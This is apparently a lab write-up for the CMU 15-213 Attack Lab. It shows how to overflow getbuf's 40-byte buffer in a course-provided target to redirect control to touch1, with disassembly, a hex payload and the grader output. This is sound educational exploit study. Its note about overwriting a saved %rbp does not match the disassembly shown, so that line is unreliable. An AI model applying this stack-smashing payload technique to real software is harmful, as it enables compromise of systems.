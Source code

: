 # Lab 3: Attack Lab

This lab explores classic stack buffer overflows and return-oriented programming (ROP) using the provided Linux x86-64 targets.

---

## Environment Setup

- Same approach as Lab 2 ([lab2/README.md](cci:7://file:///Users/olegleyzerov/CascadeProjects/cmu-15213-labs/lab2/README.md:0:0-0:0)): run a Linux x86-64 userland via Docker on Apple Silicon and mount the working directory.
- Example:
```bash
docker run --rm -it --platform linux/amd64 -v .:/work ubuntu:20.04 bash
apt-get update
apt-get install -y binutils gdb make python3
```

---

## Tools

- `objdump -d <bin>` for disassembly
- `objdump -s -j .rodata <bin>` to inspect constants
- `gdb` for dynamic inspection
- `hex2raw` to convert hex-encoded payloads to raw input

---

## Level 1 (ctarget): Call touch1 via Stack Buffer Overflow

### Vulnerability recap
Buffer overflows arise when reading user input into a fixed-size stack buffer without length validation. By overflowing the buffer, we can overwrite the saved return address and redirect control flow.

### Recon
1. Disassemble the target:
```bash
objdump -d ctarget > ctarget.d
```

2. Find `getbuf` stack allocation (40 bytes):
```
00000000004017a8 <getbuf>:
  4017a8: 48 83 ec 28      subq $0x28, %rsp    ; 0x28 = 40 bytes
```

3. Find `touch1` entry address:
```
00000000004017c0 <touch1>:
  4017c0: 48 83 ec 08      subq $0x8, %rsp
```

### Plan
- Fill 40 bytes to occupy the local buffer in `getbuf`.
- Overwrite the saved return address with the little-endian address of `touch1` (`0x4017c0` → bytes `C0 17 40 00 00 00 00 00` on x86-64).
- Feed the raw payload to `ctarget`.

### Payload (hex)
- 40 bytes of filler, then the 8-byte return address:
```
50 51 52 53 54 55 56 57 58 59
50 51 52 53 54 55 56 57 58 59
50 51 52 53 54 55 56 57 58 59
50 51 52 53 54 55 56 57 58 59
C0 17 40 00 00 00 00 00
```

### Execution
```bash
# Convert hex to raw and pipe to the target
./hex2raw < ctarget.11.txt | ./ctarget -q
```

Output:
```
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
  user id  bovik
  course   15213-f15
  lab      attacklab
  result   1:PASS:0xffffffff:ctarget:1:50 51 ... C0 17 40 00 00 00 00 00
```

### Notes
- Stack frame math: 40 bytes for buffer → overwrite saved `%rbp` and then return address.
- Little-endian means the lowest-order byte of the address comes first in memory.

---

## Next Steps

There are four more assignments focusing on:
- Crafting returns to other `touch*` routines (with argument setup)
- Chaining gadgets for ROP to bypass limited direct injections
- Understanding calling conventions and stack discipline under attack scenarios

I’ll proceed to:
1) Document Level 2 (calling `touch2` with correct data).  
2) Document Level 3 (`touch3` with the cookie).  
3) ROP levels for `rtarget` (control flow with gadgets).  
4) Add tips for using `gdb` (`disas`, `x/gx`, `info frame`, `ni/si`) and notes on ASLR/canaries if relevant to the target build.
